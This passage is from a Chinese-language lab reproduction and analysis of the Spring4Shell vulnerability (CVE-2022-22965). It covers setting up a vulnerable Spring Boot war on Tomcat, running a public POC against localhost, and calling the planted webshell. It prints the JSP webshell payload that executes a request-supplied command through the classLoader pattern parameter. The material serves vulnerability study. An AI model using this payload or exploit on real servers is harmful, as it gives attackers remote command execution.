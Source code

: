 ```XML
    </build>
</project>
```

1. 项目中添加如下代码，作为SpringBoot的启动类：

```Java
import org.springframework.boot.SpringApplication;
import org.springframework.boot.autoconfigure.SpringBootApplication;
import org.springframework.boot.builder.SpringApplicationBuilder;
import org.springframework.boot.web.servlet.support.SpringBootServletInitializer;

@SpringBootApplication
public class ApplicationMain extends SpringBootServletInitializer {
    @Override
    protected SpringApplicationBuilder configure(SpringApplicationBuilder builder) {
        return builder.sources(ApplicationMain.class);
    }

    public static void main(String[] args) {
        SpringApplication.run(ApplicationMain.class, args);
    }
}
```

1. 将章节`1.1 SpringMVC参数绑定`中的`User`类和`UserController`类添加到项目中。
2. 执行maven打包命令，将项目打包为war包，命令如下：

```Shell
mvn clean package
```

1. 将项目中target目录里打包生成的`CVE-2022-22965-0.0.1-SNAPSHOT.war`，复制到Tomcat的`webapps`目录下，并启动Tomcat。
2. 从 https://github.com/BobTheShoplifter/Spring4Shell-POC/blob/0c557e85ba903c7ad6f50c0306f6c8271736c35e/poc.py 下载POC文件，执行如下命令：

```Shell
python3 poc.py --url http://localhost:8080/CVE-2022-22965-0.0.1-SNAPSHOT/addUser
```

1. 浏览器中访问`http://localhost:8080/tomcatwar.jsp?pwd=j&cmd=gnome-calculator`，复现漏洞。

![image](https://images.seebug.org/content/images/2022/04/06/1649228873000-2gyffg.png-w331s)

# 三、漏洞分析

## 3.1 POC分析

我们从POC入手进行分析。通过对POC中的`data` URL解码后可以拆分成如下5对参数。

### 3.1.1 `pattern`参数

- 参数名：`class.module.classLoader.resources.context.parent.pipeline.first.pattern`
- 参数值：`%{c2}i if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = %{c1}i.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } %{suffix}i`
